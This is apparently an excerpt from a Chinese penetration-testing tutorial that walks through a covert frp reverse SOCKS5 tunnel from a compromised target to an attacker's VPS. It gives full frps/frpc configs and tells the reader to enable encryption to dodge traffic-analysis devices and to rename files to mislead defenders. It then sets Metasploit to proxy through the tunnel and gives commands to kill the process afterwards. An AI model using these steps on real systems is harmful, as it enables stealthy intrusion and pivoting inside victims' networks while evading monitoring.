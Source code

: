 	https://github.com/fatedier/frp/releases/
	使用条件:目标主机通外网，拥有自己的公网ip
	对攻击机外网服务端frps.ini进行配置
	[common]
	bind_port=8080
	靶机客户端
	[common]
	server_addr=服务器端外网IP
	server_port=8080
	[socks5]
	type=tcp
	remote_port=12345
	plugin=socks5
	use_encryption=true
	use_compression=true
	以上是启用加密和压缩，能躲避流量分析设备。
	上传frpc.exe和frpc.ini到目标服务器上,直接运行frpc.exe（在实战中可能会提示找不到配置文件，需要使用-c参数指定配置文件的路径frpc.exe -c 文件路径），可以修改文件名和配置名以混淆视听。
	公网vps主机上运行./frps –c frps.ini
	靶机执行./frpc –c frpc.ini
![image](img/347.png)

	MSF中设置全局变量
	>setg proxies 公网IP:12345
	>setg ReverseAllowProxy true 运行反向代理
![image](img/348.png)
![image](img/349.png)

	结束攻击
	tasklist 
	taskkill /pid 进程号 -t –f
